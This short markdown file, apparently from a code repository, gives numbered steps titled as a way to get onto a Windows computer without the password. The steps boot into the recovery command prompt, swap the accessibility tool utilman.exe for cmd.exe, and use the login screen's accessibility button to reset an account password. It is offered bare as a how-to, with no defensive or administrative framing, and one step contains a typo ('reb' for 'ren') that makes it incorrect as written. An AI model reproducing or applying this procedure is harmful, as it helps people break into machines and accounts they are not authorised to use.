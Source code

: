 # Get on to windows computer without pw
1. Type "Shift + Restart"
# Wait for windows to load
2. Click "Trouble Shoot"
3. Click "Advanced Options"
4. Click "Command Prompt"
5. Type "c:"
6. Type "cd windows"
7. Type "cd System32"
8. Type "ren utilman.exe utilman1.exe"
9. Type "reb cmd.exe utilman.exe"
10. Type "exit"
11. Click "Continue"
# Wait for next prompt to load
12. Click "Accessibility Icon"
13. Type "control userpasswords2"
14. Click on the right account
15. Click "Reset Password"
# Type in the new password